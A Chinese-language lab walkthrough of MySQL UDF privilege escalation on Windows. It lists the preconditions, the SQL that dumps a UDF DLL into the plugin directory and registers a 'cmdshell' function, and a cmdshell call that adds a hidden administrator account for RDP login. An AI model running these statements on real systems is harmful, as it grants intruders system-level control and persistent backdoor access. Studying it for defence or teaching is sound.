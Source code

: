 ## udf 提权

MySQL提供了一个让使用者自行添加新的函数的功能，这种用户自行扩展函数的功能就叫udf。

原理：**利用了root 高权限，创建带有调用cmd的函数的udf.dll动态链接库。**接下来可以利用 system权限进行提权操作。

### 场景

Windows下，在较低版本的mysql(<5.6)安装时默认是系统权限。还有就是很多人图方便，例如使用了各种集成环境，未做安全设置，直接用高权限账户进行站点配置，就可以考虑用UDF进行提权。

### 漏洞利用前提

1. 必须是root权限(此账号必须有对mysql的insert和delete权限以创建和抛弃自定义函数(MYSQL文档原语)。)

2. ```secure_file_priv=```(未写路径)

3. 将udf.dll文件上传到MySQL的plugin目录下(这里以MySQL>=5.1为例)


## 测试环境

php：5.4.45

phpmyadmin：3.5.8.2

mysql：5.5.53

Apache

原生无plugin文件夹


## 步骤


使用了“小新udf提权工具”。


1、通过数据库账号密码登陆（可以通过读取配置文件获取账号密码）

![image-20211020110342337](images/2.png)

2、确保```secure_file_priv```为空（不为null）

![image-20211020110549428](images/3.png)

3、确保存在plugin文件夹

![image-20211020110616622](images/4.png)

4、点击导出udf，将导出的dll存到plugin目录下

![image-20211020110640837](images/5.png)

SQL语句: select '0xUDFCODExxxxxx' into dumpfile 'C:/phpStudy/PHPTutorial/MySQL/lib/plugin//M4ster.dll'

pcap见**udf-out.pcap**

也可以自定义路径导出udf 

pcap见**udf-out-2.pcap**

5、点击创建cmdshell

![image-20211020110703518](images/6.png)

作用，把 “M4ster.dll”中的自定义函数 cmdshell 引入进来。

SQL语句:create function cmdshell returns string soname 'M4ster.dll'

![image-20211020110957952](images/1.jpg) 

pcap见**udf-new-cmdshell.pcap**

6、可以进行提权操作了

![image-20211020110741468](images/7.png)

点击“利用cmdshell添加超级管理员”

这一步是在演示，调用自定义函数。

SQL语句:select cmdshell('net user cool$ asd@@123.. /add & net localgroup administrators cool$ /add')

![image-20211020110821807](images/10.png)

pcap见**udf-net-user.pcap**

7、看到开放3389端口

![](images/8.png)

8、使用凭据远程登陆

![](images/9.png) 


## reference

[SQL学习 之 into outfile 和 into dumpfile](https://blog.csdn.net/u014029795/article/details/105222309)

[udf提权原理详解](http://t.zoukankan.com/litlife-p-9030673.html)

[UDF手工提权辅助](https://blog.csdn.net/somnuszhigang/article/details/88640063)

[udf提权小结](https://www.cnblogs.com/xishaonian/p/6016486.html)

[高版本mysql自定义dll提权_MySQL提权之udf提权(获得webshell的情况)](https://blog.csdn.net/weixin_34194520/article/details/113191390)

## 后记

首先判断mysql版本：

MySql < 4.1:

允许用户将任何的DLL文件里面的函数注册到MySql里。

MySql 4.1-5.0：

对用来注册的DLL文件的位置进行了限制，通常我们选择 UDF导出到系统目录

C:/windows/system32/来跳过限制。

mysql版本 < 5.2 , UDF导出到系统目录c:/windows/system32/  (另一种说法是MySql >=5.1: 这些DLL只能被放在MySql的plugin目录下。)

mysql版本 > 5.2 ，UDF导出到安装路径MySQL\Lib\Plugin\

编写dll文件的hex code用的开源的。


![](images/11.jpg) 